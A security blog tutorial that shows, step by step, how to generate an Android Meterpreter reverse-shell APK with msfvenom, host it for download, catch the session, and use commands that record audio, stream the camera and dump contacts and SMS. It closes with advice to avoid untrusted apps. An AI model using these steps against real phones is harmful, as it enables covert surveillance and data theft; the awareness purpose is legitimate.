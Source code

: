 
<a href="https://github.com/vinagrsec">About</a> | <a href="https://vinagrsec.github.io">Posts</a>

<p><span style="float: left; width: 0.8em; font-size: 600%; font-family: courier, courier; line-height: 80%;">W</span>hat can happen to your android phone when you download an android application from an untrusted source? What would be its impact on your phone? Well, the results are pretty scary. You won't even know what is going on in the background of your android phone when you download a malicious application.</p>

<p>In this article, we will learn how an attacker can take over control on your phone when you install an application from untrusted sources. We will learn about the approach he/she can take and the results. So, let's begin.</p>

<p><em><strong>Note:</strong> Before we proceed, please keep in mind that this tutorial/article is just for an educational purpose. This is to make everyone aware about the consequences of using android application from an untrusted/unknown sources.</em></p>

<p>I will be performing the process in my own network only. But, one can perform the attack process in any network either LAN or WAN (External network). In this process, three actors are involved:</p>

<ul id="block-400dce76-fd3e-48ca-9918-fe47222769a8"><li>Kali Linux Machine<strong> (Attacker)</strong></li><li>Malicious Android application<strong> (APK)</strong></li><li>Android Phone<strong> (Victim)</strong></li></ul>

<p><em><strong>Note:</strong> Attacker and Victim are on the same network here i.e. 192.168.172.x.</em></p>

<p><strong>Step-1: Creating Malicious Payload</strong></p>

<p>You need to create a malicious android payload first. For this, login to your Kali Linux machine and follow the below command (Hope you already have installed the Kali Linux in your PC. If not, you can find tons of tutorial for installing Kali Linux over internet. I will not be wasting your time here :-D)</p>

<p><strong>#<code>msfvenom -p android/meterpreter/reverse_tcp LHOST=&lt;ip-address&gt; LPORT=&lt;any unused port&gt; -f raw &gt; myandroid.apk</code></strong></p>

![image-1](https://user-images.githubusercontent.com/92144178/136511602-460ffb67-f397-43f4-9dc5-80336e06afc8.png)

<p>"<em>Msfvenom, here is a command line instance of Metasploit that is used to generate and output all of the various types of shell code that are available in Metasploit.</em>"</p>

<strong>•	-p:</strong> Payload <br><strong>•	LHOST:</strong> Local Host <br><strong>•	LPORT:</strong> Local Port <br><strong>•	-f:</strong> Format
 

<p><strong>Step-2: Launch Metasploit Framework</strong></p>

<p>Once you create your own APK, it's time launch metasploit framework using msfconsole command in Kali linux machine.</p>

<p>"<em>The Metasploit Framework is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute exploit code. The Metasploit Framework contains a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection.</em>"</p>

<p>Once the Metasploit framework is launched, you need to use multi/handler, which is a stub that handles exploits launched outside of the framework.</p>

![image-2](https://user-images.githubusercontent.com/92144178/136511950-a4fd8947-33f7-4ae3-b1e3-0650d921a334.png)

<p><em><strong>Note:</strong> Make sure you're using the same payload which you have used while creating the malicious apk in Step-1.</em></p>

<p><strong>Step-3: Host the Malicious Android Application</strong></p>

<p>Now, handler is running. You need to host your malicious android application to somewhere so that victim can download it in his/her android phone.</p>

<p>As this process is only for our own network, you can host it there only. For this you can use one python's module called SimpleHTTPServer.</p>

<p>"<em>Python’s SimpleHTTPServer is the classic quick solution for serving the files in a directory via HTTP (often, you’ll access them locally, via localhost).</em>"</p>

<p><strong>#<code>python -m SimpleHTTPServer 8080</code></strong></p>

![image-3](https://user-images.githubusercontent.com/92144178/136512500-039235d0-94dc-42bc-9719-1e1cdd726000.png)

<p><em><strong>Note:</strong> The above command should be run under the same directory where the malicious android application is kept.</em></p>

<p><strong>Step-4: Download the Hosted Malicious APK on Android Phone</strong></p>

<p>Now, download the malicious android application using the following URL in your android phone's browser. <em>(Please remember the IP address in the URL is your Kali Linux machine local IP address)</em></p>

<p><strong><code>http://192.168.172.32:8080/myandroid.apk</code></strong></p>

![Screenshot_20211007-131743_Chrome](https://user-images.githubusercontent.com/92144178/136513557-054fb4a3-ad08-4ebb-81fa-9d08e687fc6c.jpg)
<br>
<p>Once the hosted APK is accessed from your android phone, you can see the logs generated in Kali Linux for SimpleHTTPServer.</p>

![simple-http-server-log](https://user-images.githubusercontent.com/92144178/136512906-a0d5fcd8-d392-42f9-a399-3dd439cae55e.png)


<p><strong>Step-5: Install and Access the Android Application</strong></p>

<p>Once the apk is downloaded, install it and click on it.</p>

![combined-package-installer-and-file-resized-2](https://user-images.githubusercontent.com/92144178/136516291-b3873611-e311-4f58-9bff-560e8cdcf2f3.jpg)


<p><strong>Step-6: Et Voilà !..You Got the Control</strong></p>

<p>Once you click on the application, you can look into your Kali Linux machine. You must have got the meterpreter session. That means, you have the control on victim's android phone.</p>

![image-4](https://user-images.githubusercontent.com/92144178/136516512-5136ce39-c12f-40f5-a57a-ccb6b62fbf27.png)

<p><strong>Step-7: Get Ready for the Killing</strong></p>

<p>Now, you can type "help" command to see what you can do with the victim's phone.</p>

![help-all-combined](https://user-images.githubusercontent.com/92144178/136519833-ceb86a4e-0e2b-4133-bafe-76c85cb73274.png)

<p><strong>Step-8: Sneak Peek</strong></p>

<p>As you can see, you can run numerous commands on the hacked android phone. You can dump all the contact numbers, SMS and other sensitive data. You can record the audio, switch ON the camera and even run a live webcam on victim's phone. Victim will be totally unaware about it. Here're the command below you can run to check:</p>

<p><strong>meterpreter&gt;record_mic</strong>  --&gt; To record the audio</p>
<p><strong>meterpreter&gt;webcam_snap</strong>  --&gt; To capture the image from the camera</p>
<p><strong>meterpreter&gt;webcam_stream</strong>  --&gt; To run live camera/video</p>

<p>As you can see, how scary it can be if you download the android application from unknown/untrusted sources.</p>
<br>
<p><strong>Conclusion</strong></p>

<p>So, what we learned from the activity we've done is:</p>

<ul><li>Never download any android application from unknown/untrusted sources.</li><li>Always download the application from Google Play Store.</li><li>Make sure your installed application gets scanned with Google Play Protect.</li><li>Disable Installation of Unknown applications in phone Settings.</li></ul>


<p>So, this is it for now. I hope this article was insightful. In the 2nd part, we will learn more sophisticated way to create malicious android application. Stay tuned..!!</p>
<br>
<p><strong>Reference</strong></p>

<li><a href="https://www.offensive-security.com/metasploit-unleashed/">https://www.offensive-security.com/metasploit-unleashed/</a></li>

<br>
<script src="https://utteranc.es/client.js"
        repo="vinagrsec/android-hacking-part-1"
        issue-term="pathname"
        theme="github-light"
        crossorigin="anonymous"
        async>
</script>


